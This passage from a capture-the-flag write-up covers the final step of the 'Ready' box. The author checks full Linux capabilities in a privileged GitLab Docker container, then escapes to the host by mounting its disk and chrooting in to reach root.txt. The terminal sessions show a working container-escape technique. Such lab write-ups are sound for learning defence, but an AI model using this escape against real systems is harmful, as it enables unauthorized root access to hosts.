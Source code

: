 Oh and if you want to see what capabilites are enabled for you, just run `capsh --print`

```terminal
root@gitlab:~# capsh --print
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,37+eip
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,37
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
root@gitlab:~#
```

Following along wih the instructions from the site:

```terminal
root@gitlab:/# fdisk -l
---[snip]---
Device        Start      End  Sectors Size Type
/dev/sda1      2048     4095     2048   1M BIOS boot
/dev/sda2      4096 37746687 37742592  18G Linux filesystem
/dev/sda3  37746688 41940991  4194304   2G Linux swap
root@gitlab:/# mkdir /mnt/hole
mkdir /mnt/hole
root@gitlab:/# cd /mnt                
cd /mnt
root@gitlab:/mnt# ls
ls
hole
root@gitlab:/mnt# mount /dev/sda2 hole
mount /dev/sda2 hole
root@gitlab:/mnt# cd hole
cd hole
root@gitlab:/mnt/hole# ls
ls
bin   cdrom  etc   lib    lib64   lost+found  mnt  proc  run   snap  sys  usr
boot  dev    home  lib32  libx32  media       opt  root  sbin  srv   tmp  var
root@gitlab:/mnt/hole# chroot ./ bash
chroot ./ bash
root@gitlab:/# whoami
whoami
root
root@gitlab:/# cd /root
cd /root
root@gitlab:~# ls
ls
docker-gitlab  ready-channel  root.txt  snap
root@gitlab:~#
```

And there it is. That's **Ready**.
